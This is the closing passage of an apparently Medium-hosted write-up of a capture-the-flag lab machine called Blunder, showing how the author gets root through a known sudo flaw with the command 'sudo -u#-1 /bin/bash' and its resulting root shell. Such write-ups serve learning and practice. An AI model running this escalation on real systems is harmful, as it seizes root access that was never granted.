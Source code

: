 ## Root

![](https://cdn-images-1.medium.com/max/2000/1*efkp3J4nAnp9NLaM-LFOXQ.png)

So user hugo can run /bin/bash on all users except root.

First I tried to find if any user was in the root group but could not find any. So on googling around we can find [this](https://www.exploit-db.com/exploits/47502).

Following the exploit

    hugo@blunder:~$ sudo -u#-1 /bin/bash
    sudo -u#-1 /bin/bash
    root@blunder:/home/hugo#

**Why did this work?**

![](https://cdn-images-1.medium.com/max/2000/1*RpynCAicL9FJr6meTS04Tw.png)

With this, I got the root access to the machine as well.

The initial foothold to the machine was a bit difficult. After getting into the machine, the automated tools didn’t give much information. The privilege escalation part was totally new to me. As a whole, this machine was fun to exploit.

Thank you for reading the writeup. Hope you find it insightful and feel free to comment if you think something could be done differently.
